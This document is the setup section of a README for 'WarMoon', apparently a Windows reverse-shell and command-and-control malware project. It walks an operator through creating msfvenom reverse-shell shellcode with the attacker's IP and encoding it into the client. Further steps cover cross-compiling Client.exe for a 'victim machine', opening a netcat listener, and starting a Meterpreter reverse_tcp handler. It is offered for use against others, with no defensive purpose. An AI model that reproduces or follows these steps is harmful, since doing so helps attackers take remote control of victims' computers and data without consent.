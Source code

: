# Setup

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```

2. Clone the repository:
```bash
git clone https://github.com/IvanT7D3/WarMoon
```

3. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

4. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)

5. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)

6. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables

7. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

8. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

9. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

10. You should now be good to go, compile everything by typing:
```bash
x86_64-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

11. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

12. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

13. Now you should start the main server by typing:
```bash
./Server start
```

14. msfconsole commands for Inject64:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```

Everything should now be ready. Enjoy :)
